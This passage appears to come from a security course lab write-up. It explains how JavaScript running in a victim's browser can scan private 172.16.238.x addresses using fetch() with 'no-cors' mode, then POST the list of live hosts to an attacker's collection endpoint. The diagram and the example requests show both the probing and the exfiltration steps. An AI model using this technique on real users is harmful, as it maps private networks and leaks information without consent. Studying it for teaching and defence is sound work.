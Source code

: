 ```
│    - fetch("http://172.16.238.X", {mode: "no-cors"})       │
│    - Browser sends request from victim's network           │
└────────────────────┬────────────────────────────────────────┘
                     │
                     ▼
┌─────────────────────────────────────────────────────────────┐
│ 4. Server exists → Request succeeds                        │
│    No server → Request fails (connection refused)          │
└────────────────────┬────────────────────────────────────────┘
                     │
                     ▼
┌─────────────────────────────────────────────────────────────┐
│ 5. Collect all successful IPs                              │
│    - 172.16.238.58, 172.16.238.97, ...                     │
└────────────────────┬────────────────────────────────────────┘
                     │
                     ▼
┌─────────────────────────────────────────────────────────────┐
│ 6. Exfiltrate results to attacker's endpoint               │
│    - POST to https://cs6262.gtisc.gatech.edu/receive/...   │
└─────────────────────────────────────────────────────────────┘
```

### Why no-cors Works

The `mode: 'no-cors'` option tells the browser:

- "I don't need to read the response"
- "Just send the request and tell me if it succeeded"

This bypasses CORS restrictions because we're not trying to access the response data.

### Browser Behavior

When `fetch` with `mode: 'no-cors'` is used:

**Server exists:**

```
fetch("http://172.16.238.58")
→ Browser sends: GET / HTTP/1.1
→ Server responds: HTTP/1.1 200 OK
→ Promise resolves (success)
```

**No server:**

```
fetch("http://172.16.238.99")
→ Browser sends: GET / HTTP/1.1
→ Connection refused (no server listening)
→ Promise rejects (failure)
```

We can't read the response, but we can detect the difference between success and failure.
